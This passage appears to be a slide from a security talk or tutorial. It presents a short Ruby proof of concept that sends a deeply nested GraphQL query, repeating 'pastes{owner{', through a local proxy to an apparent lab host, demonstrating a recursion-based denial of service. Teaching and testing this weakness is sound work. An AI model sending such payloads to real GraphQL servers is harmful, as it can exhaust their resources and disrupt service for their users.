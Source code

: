 


![bg fit](assets/dos-recursion_01.png)

---

Ruby PoC for deep recursion:

```ruby
require 'httpx'

nesting_level = 10
recursion_pattern = 'pastes{owner{'
fields = 'name'
payload = recursion_pattern * nesting_level + fields + '}}' * nesting_level

data = { 'query' => "query{#{payload}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---


